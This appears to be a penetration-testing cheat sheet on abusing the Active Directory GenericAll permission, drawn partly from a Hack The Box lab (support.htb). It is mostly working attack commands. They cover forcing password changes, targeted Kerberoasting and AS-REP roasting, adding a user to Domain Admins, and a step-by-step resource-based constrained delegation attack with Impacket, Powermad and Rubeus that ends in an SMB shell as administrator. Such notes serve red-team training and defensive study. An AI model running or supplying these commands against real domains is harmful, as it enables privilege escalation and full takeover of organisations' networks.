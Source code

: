 # GenericAll Abuse



## Introduction

Active Directory users are defined by securable objects known as ACL/ACE's. Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs). These define what permissions the user has and can or cannot do  (i.e change account name, reset password, etc).&#x20;

<mark style="color:yellow;">**GenericAll is the "God Mode" of the object permissions.**</mark>

Here are some AD object permissions we're interested in.

* **GenericAll** - full rights to the object (add users to a group or reset user's password - <mark style="color:yellow;">God mode</mark>).
* **GenericWrite** - update object's attributes (i.e logon script)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self (Self-Membership)** - ability to add yourself to a group



## Abusing GenericAll

There are three types of objects that can a user can have GenericAll permissions. User, Group, and Computer.

To view ACL/ACE permissions we can use tools like **`PowerView`** and **`Bloodhound`**.



### GenericAll on User

*   **Change password**: You could just change the password of that user with

    ```powershell
    net user <username> <password> /domain
    ```
*   **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline:

    ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### GenericAll on Group

We can add a user we control to the vulnerable group.

```powershell
net group "domain admins" <username> /add /domain
```



### GenericAll on Computer

A common attack with generic all on a computer object is to add a fake computer to the domain.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If enumerating and we see a user has GenericAll permission on a computer we know we full control.

We can perform a <mark style="color:yellow;">**Kerberos Resourced Based Constrained Delegation attack**</mark>: computer takover. This attack allows us to impersonate a specific user (Administrator).





## Abusing GenericAll Computer Object Kerberoast Ticket Abuse

###

### Also known as: "Resource Based Constrained Delegation Attack"

We will be following this guide [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

### Toshi's "Impacket" method.

### Add Computer to Domain

We'll first need to add a new machine. We can add a computer to the domain with impacket-addcomputer.

Below are some useful commands.

<pre class="language-powershell"><code class="lang-powershell"><strong># Add a computer to the domain via domain credentials
</strong>impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'

#Add a computer account via hashed credentials
impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
<strong>
</strong><strong># Add a computer account via domain credentials
</strong>impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'

# Modify a computer account password
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -no-add 'DOMAIN\user:password'

# Delete a computer account
impacket-addcomputer -computer-name 'COMPUTER$' -dc-host $DomainController -delete 'DOMAIN\user:password'
</code></pre>

### Toshi's rbcd attack

{% embed url="https://github.com/tothi/rbcd-attack" %}

#### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

#### Modifying delegation rights

Implemented the script [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) found here in the repo which adds the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example. For help and an example call the script without options.

#### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an S4U2Self query and get an impersonated Service Ticket for the target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin` and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```





### Server Side Method

Here is another way to abuse GenericAll on a computer group

```powershell
# -------- On Server Side
# Upload tools
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# With Rubeus, generate the new fake computer object password hashes. 
#  Since we created the computer object with the password 123456 we will need those hashes
#  for the next step.
./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."
/home/user/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```
